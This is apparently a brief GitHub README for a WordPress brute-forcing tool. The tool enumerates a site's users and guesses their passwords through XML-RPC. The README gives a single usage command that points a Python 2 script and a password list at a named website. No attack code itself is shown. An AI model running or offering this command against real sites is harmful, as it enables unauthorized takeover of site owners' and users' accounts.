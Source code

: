# wp_avto_bruteforcer
Get users from WordPress and bruteforce their via using XML RPC


How to use:
```
python2 wordbrutepress.py -t http://mkonne.org -w passwords.txt
```
